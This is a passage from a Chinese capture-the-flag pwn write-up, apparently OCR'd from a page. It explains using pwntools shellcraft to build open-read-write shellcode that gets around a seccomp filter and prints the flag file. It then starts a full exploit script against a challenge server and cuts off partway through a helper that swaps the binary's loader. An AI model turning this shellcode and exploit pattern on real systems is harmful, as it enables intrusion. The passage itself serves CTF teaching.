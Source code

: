由 seccomp 我们可以知道，我们需要通过 open-read-write 来输出 flag，一般我们是直接通过手撸 shellcode 来 open-read-write（手撸也能简单）。这里我们介绍一种如何通过 pwntools 中的 shellcraft 模块来写 shellcode 的方法。

shellcraft 是 pwntools 提供的一个关于不同平台下 shellcode 编写的模板，我们可以通过调用 shellcraft 快速编写我们想要调用的 shellcode。一般使用方法为 shellcraft.platform.os.func，其中 platform 为我们当前的指令集类型（amd64，i386，mips，arm 等），os 为操作系统（linux，windows 等），func 就为我们真正想要执行的功能。具体使用方法可以参考下面链接中关于 shellcodecraft 一节。

链接：[shellcraft](C:\study\ctf\pwntoolsdocinzh-cn-readthedocs-io-en-latest.pdf)

下面是我们这次使用 shellcode

```python
shellcode = shellcraft.amd64.pushstr('flag')
shellcode += '''
mov rdi,rsp
xor rsi,rsi
mov rax,2
syscall
'''
shellcode += shellcraft.amd64.linux.read(3,'rdi',0x100)
shellcode += shellcraft.amd64.linux.write(1,'rsp',0x100)
```

## 3. 完整 exp

```python
from pwn import *
from ctypes import *
import os
from Crypto.Cipher import AES
from binascii import b2a_hex, a2b_hex
import struct
#import roputils as rop

remote_addr = "pwnable.org"
remote_port = 12020

uselibc = 2 #0 for no,1 for i386,2 for x64
local = 1
haslibc = 1
atta = 1

pc = './chall'
pwn_elf = ELF(pc)

def change_ld(binary, ld):
    """
    Force to use assigned new ld.so by changing the binary
    """
    if not os.access(ld, os.R_OK): 
        log.failure("Invalid path {} to ld".format(ld))
        return None
 
         
    if not isinstance(binary, ELF):
        if not os.access(binary, os.R_OK): 
            log.failure("Invalid path {} to binary".format(binary))
            return None
        binary = ELF(binary)
 
    print "haha2"
    for segment in binary.segments:
        if segment.header['p_type'] == 'PT_INTERP':
            size = segment.header['p_memsz']
            addr = segment.header['p_paddr']
            data = segment.data()
```